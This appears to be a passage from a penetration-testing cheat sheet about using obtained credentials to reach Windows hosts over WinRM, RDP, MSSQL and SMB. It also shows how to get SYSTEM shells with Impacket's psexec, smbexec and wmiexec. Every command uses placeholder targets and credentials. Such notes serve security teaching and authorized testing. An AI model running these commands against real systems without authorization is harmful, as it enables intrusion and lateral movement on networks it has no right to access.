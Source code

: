 ```yaml
---
legal-banner: true
---
```


### **WINRM**

WinRM is a management protocol used to remotely communicate with another system in the Windows realm. You can pass  
the password to this service to gain access if it’s enabled:  
`evil-winrm -i 'TARGET-IP' -u 'USERNAME' -p 'PASSWORD'`  
In this scenario we have a password which we passed to WinRM using the ‘evil-winrm’ tool.

### **RDP**

RDP is a protocol to remotely control desktop computers. Once again we can pass our password to this service if enabled, In this scenario we’ve used ‘xfreerdp’ to talk with the RDP protocol and gained access to the system through a graphical  
interface.  
`xfreerdp /v:TARGET-IP /u:USERNAME /p:'PASSWORD' /drive:linux,/home/kali/yo/SessionGopher`

### **MSSQL**

We can also pass the password to MSSQL service if enabled and authorized to exfiltrate sensitive information out of the  
network or to execute OS commands. To check if MSSQL is enabled on the target system:  
`crackmapexec mssql TARGET-IP -u 'USERNAME' -p 'PASSWORD'`

### **SMB**

SMB is a file sharing protocol widely used in the Windows realm. To check if authorized:  
`crackmapexec smb TARGER-IP -u 'USERNAME' -p 'PASSWORD'`

To list shared folders:  
`smbclient -U 'USERNAME' -L \\TARGET-IP`

And finally to connect to the target share which in our case is ‘Users’:  
`smbclient -U 'USERNAME' \\\\TARGET-IP\\SHARE`

### **INTERACTIVE-SHELL**


Several tools can provide an interactive shell by exploiting protocols like SMB. One commonly used tool is psexec from the Impacket toolkit:

`/usr/bin/impacket-psexec 'USERNAME:PASSWORD@TARGET-IP'`  
**WHAT IT DOES:** The tool locates a writable SMB share on the target, uploads a payload (typically a service binary), creates a new service to run it, and starts that service. This process gives us a shell with NT AUTHORITY\SYSTEM privileges.

There are also other tools that can do magic like that:  
`impacket-smbexec 'USERNAME:PASSWORD'@TARGET-IP`

And ‘wmiexec’:  
`impacket-wmiexec 'USERNAME:PASSWORD'@TARGET-IP`